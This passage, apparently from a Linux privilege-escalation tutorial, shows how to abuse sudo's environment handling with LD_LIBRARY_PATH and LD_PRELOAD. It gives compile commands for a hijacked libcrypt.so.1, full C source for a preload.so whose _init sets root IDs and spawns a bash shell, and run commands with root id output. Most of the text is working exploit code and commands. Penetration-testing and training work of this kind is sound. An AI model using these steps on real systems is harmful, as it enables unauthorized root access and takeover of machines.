 Compile library_path.c into libcrypt.so.1:

$ gcc -o libcrypt.so.1 -shared -fPIC library_path.c

Run apache2 using sudo, while setting the LD_LIBRARY_PATH environment variable to the current path (where we compiled library_path.c)

$ sudo LD_LIBRARY_PATH=. apache2

# id

uid=0(root) gid=0(root) groups=0(root)

* * *

## **EXPLOIT LD_PRELOAD OPTION**

**LD_PRELOAD** is an environment variable which can be set to the path of a shared object (.so) file.

When set, the shared object will be loaded before any others. By creating a custom shared object and creating an init() function, we can execute code as soon as the object is loaded.

### Limitations:

- LD_PRELOAD will not work if the real user ID is different  from the effective user ID.
- sudo must be configured to preserve the LD_PRELOAD
- environment variable using the env_keep option.

### Exploitation

Create a file (preload.c) with the following contents

#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
void _init() {
unsetenv("LD_PRELOAD");
setresuid(0,0,0);
system("/bin/bash -p");
}

Compile preload.c to preload.so:

$ gcc -fPIC -shared -nostartfiles -o /tmp/preload.so preload.c

Run any allowed program using sudo, while setting the LD_PRELOAD environment variable to the full path of the preload.so file:

$ sudo LD_PRELOAD=/tmp/preload.so apache2

# id

uid=0(root) gid=0(root) groups=0(root)
